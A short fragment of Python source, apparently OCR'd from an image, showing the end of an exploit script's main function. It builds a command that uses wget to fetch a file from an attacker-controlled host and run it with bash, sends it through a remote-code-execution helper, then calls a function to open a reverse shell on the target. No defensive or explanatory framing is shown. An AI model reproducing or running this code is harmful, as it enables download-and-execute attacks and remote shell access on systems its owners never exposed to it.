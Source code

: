 ```py
    command = "wget %s/%s && bash %s" %(lhost,file,file)
    get_rce(command)
    # Get reverseeeeeeerrererere
    getReverse(rhost,encoded)
    
if __name__ == '__main__':
    main()
```